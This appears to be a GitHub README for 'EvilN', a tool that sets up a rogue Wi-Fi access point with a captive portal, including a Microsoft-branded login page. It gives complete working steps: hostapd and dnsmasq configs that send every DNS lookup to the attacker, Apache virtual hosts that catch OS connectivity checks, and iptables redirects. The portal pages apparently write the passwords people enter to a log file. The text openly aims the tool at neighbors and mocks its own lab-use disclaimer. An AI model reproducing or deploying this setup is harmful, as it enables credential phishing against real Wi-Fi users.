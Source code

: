 # EvilN -> Evil-Neighbor

if you love your neighbors, this tool is for you :)

Just kiding (not really... )

Any use of this tool is at your own risk, this tool should be used in a lab environment  (not really... )

## If you like things done authomatically, Use:

### Dual Band (2.4GHz and 5GHz):
- iface1 assosiated to -channel2.4 (2.4GHz)
- iface2 assosiated to -channel5 (5GHz)
```python
python3 EvilN.py --dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal microsoft
python3 EvilN.py --dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal default
```

### 2.4GHz Single::
```python
python3 EvilN.py --band 2.4 --iface wlan0 --ssid "MyLan" --channel 1 --network 10.0.0.0/24 --CaptivePortal microsoft
python3 EvilN.py --band 2.4 --iface wlan0 --ssid "MyLan" --channel 6 --network 10.0.0.0/24 --CaptivePortal default
```

### 5GHz Single:
```python
python3 EvilN.py --band 5 --iface wlan1 --ssid "MyLan" --channel 36 --network 10.0.0.0/24 --CaptivePortal microsoft
python3 EvilN.py --band 5 --iface wlan1 --ssid "MyLan" --channel 40 --network 10.0.0.0/24 --CaptivePortal default
```

## If you like things done manually, Use:

### 1) Installation all pachages:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo apt install -y hostapd dnsmasq lighttpd php
```

### 2) Setting up wlan0 Interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up
```

### 3) configure dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1
```

### 4.A) configure hostapd.conf file (2.4 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```

### 4.B) configure hostapd.conf file (5 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=a
channel=36
auth_algs=1
wmm_enabled=1
```

### 5) configure a2enmod:
```bash
sudo systemctl start apache2
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

### 5) Create captive Foles:
```bash
sudo mkdir -p /var/www/captive
```

### 6.A) Create Web Captive Portal (Default):
```bash
sudo mv index.html /var/www/captive/
sudo mv save.php /var/www/captive/
```

### 6.B) Create Web Captive Portal (Microsoft):
```bash
sudo mv Microsoft/index.html /var/www/captive/
sudo mv Microsoft/save.php /var/www/captive/
sudo mv Microsoft/password.php /var/www/captive/
sudo mv Microsoft/save2.php /var/www/captive/
sudo mv Microsoft/microsoft.svg /var/www/captive/
```

### 7) Create log file:
```bash
sudo touch /var/log/ca.log
```

### 8) Permission for file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

### 9.A) Create Vhost (default):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive
    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```

### 9.B) Create Vhost (Microsoft):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive

    <Directory /var/www/captive>
        AllowOverride None
        Require all granted
        Options -MultiViews
    </Directory>

    Alias /hotspot-detect.html /var/www/captive/index.html
    Alias /generate_204       /var/www/captive/index.html
    Alias /connecttest.txt    /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/(hotspot-detect\.html|generate_204|connecttest\.txt)$
    RewriteRule ^/?(save\.php|password\.php|save2\.php|microsoft\.svg)$ - [L]

    RewriteCond %{REQUEST_FILENAME} -f [OR]
    RewriteCond %{REQUEST_FILENAME} -d
    RewriteRule ^ - [L]
    RewriteRule ^ /index.html [L]
    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
    Header always set X-VHost "captive-portal"
    AddType image/svg+xml .svg .svgz
</VirtualHost>
```

### 10) Start a2ensite:
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


### 11) Create IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
```

### 12) start:
```bash
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### Kill the process:
```bash
sudo pkill dnsmasq
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -D PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
sudo rm dnsmasq.conf
sudo rm hostapd.conf
sudo rm /etc/apache2/sites-available/captive.conf
sudo rm /var/log/ca.log
sudo rm -r /var/www/captive/
sudo systemctl stop apache2
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip link set wlan0 up
systemctl start NetworkManager
```
